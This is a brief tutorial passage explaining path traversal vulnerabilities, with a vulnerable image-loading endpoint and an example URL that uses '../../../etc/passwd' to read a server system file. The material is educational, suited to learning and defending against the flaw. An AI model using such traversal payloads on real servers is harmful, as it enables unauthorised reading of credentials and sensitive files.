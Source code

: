 # Path traversal

Directory traversal vulnerabilities enable an attacker to read arbitrary files
on the server that is running an application.

This might include:
- Application code and data
- Credentials for back-end systems
- Sensitive operating system files

## Exploitation

This application implements no defenses against path traversal attacks
```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve a file
```http
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

This causes the application to read from the following path
```
/var/www/images/../../../etc/passwd
```
